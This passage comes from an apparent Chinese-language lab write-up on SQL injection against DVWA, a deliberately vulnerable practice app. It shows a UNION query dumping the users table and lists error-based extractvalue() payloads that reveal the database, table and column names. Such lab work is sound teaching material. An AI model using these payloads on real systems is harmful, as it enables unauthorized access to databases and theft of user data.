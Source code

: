 ```bash
| admin      | admin                                                                     |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union select first_name,user from users;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | gordonb   |
| Hack       | 1337      |
| Pablo      | pablo     |
| Bob        | smithy    |
+------------+-----------+
5 rows in set (0.000 sec)
```

#### 2. 分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题

前端注入思路，库名->表名->字段，在SQL Injection中输入:

a. 爆库名，得到数据库名 dvwa

`1' and extractvalue(1,concat(0x7e,database()));#`

![extractvalue_dvwa](images/extractvalue_dvwa.png)

b. 爆表名users

`1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema='dvwa')));#`  得到dvwa库中有两张表

`1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)));#`  得到users表

c. 爆列名字段

`1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users')));#` 得到users表中有8个字段

`1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' limit 0,1)));#`  得到第一个字段名，后续递增7次
